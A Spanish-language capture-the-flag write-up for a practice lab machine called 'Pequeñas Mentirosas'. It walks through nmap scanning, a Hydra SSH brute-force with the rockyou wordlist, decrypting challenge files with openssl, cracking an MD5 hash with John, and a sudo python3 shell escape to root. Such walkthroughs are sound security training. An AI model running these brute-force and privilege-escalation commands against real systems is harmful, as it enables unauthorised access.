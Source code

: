 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 26/09/2024'
---
```


# Pequeñas Mentirosas

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (27).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (31).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (32).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **a**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`.&#x20;

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (26).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
scp a@172.17.0.2:/srv/ftp/* ~/Desktop/
```

<figure><img src="../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (35).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (36).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (37).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (38).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (39).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (40).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (41).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (42).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.

